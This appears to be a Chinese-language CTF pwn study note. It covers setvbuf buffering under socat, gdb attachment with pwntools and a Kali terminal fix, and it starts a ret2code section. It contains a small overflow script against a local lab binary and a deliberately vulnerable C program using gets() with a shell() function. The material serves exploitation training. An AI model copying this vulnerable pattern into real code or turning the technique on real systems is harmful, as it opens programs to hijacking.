 直到今天才彻底搞明白这三句话的作用。
因为我们搭建 pwn 题一般都是用 socat 进行端口转发，pwn 题搭建详情
但是 socat 不是一次写一行而是一次写一个缓冲区
所以我们可以通输入参数 type=2（行缓冲）的 setvbuf 来使得每次从流中读入一行数据或向流中写入一行数据。

#### 使用 gdb 配合脚本调试, gdbscript

attach 放在 process 后

方法 1

```python
from pwn import *
r = process('./bof1')
raw_input() # 这里断下，执行脚本后看pid是多少比如6113
# 新建窗口终端
# $gdb
# gdb$ attach 6113
s = r.recvuntil('What\'s the secret ?')
print('recvuntil' + s)
r.sendline(flat('AAAAAAAA', p32(0xbeef), p32(0xdead)))
r.interactive()
```

方法 2

[pwn_000_01_gdbattach](scripts/pwn_000_01_gdbattach.py)

##### kali 不能执行 gdb script 的 bug

https://juejin.im/post/5e68ff69518825494466bc57

方法 1:

sudo update-alternatives --config x-terminal-emulator

可用 lxterm, uxterm, xterm

[方法 2](https://www.cnblogs.com/wgf4242/p/13232979.html)

```
vi /home/kali/.local/lib/python3.8/site-packages/pwnlib/util/misc.py
# 在Launching a new terminal 这一行后面添加
argv = argv[:-1] + [x.strip('"') for x in argv[-1].split()]
```

### bof

#### bof-ret2code

- 透过 Buffer Overflow 改赞 return address

- 将 return address 改到 code 中任意处

- 须关闭 PIE

```c
# include<stdio.h>
# include <stdlib.h>
void shell(){
    system("/bin/sh");
}

int main(){
    char buffer[8];
    gets(buffer);
    return 0;
}
```
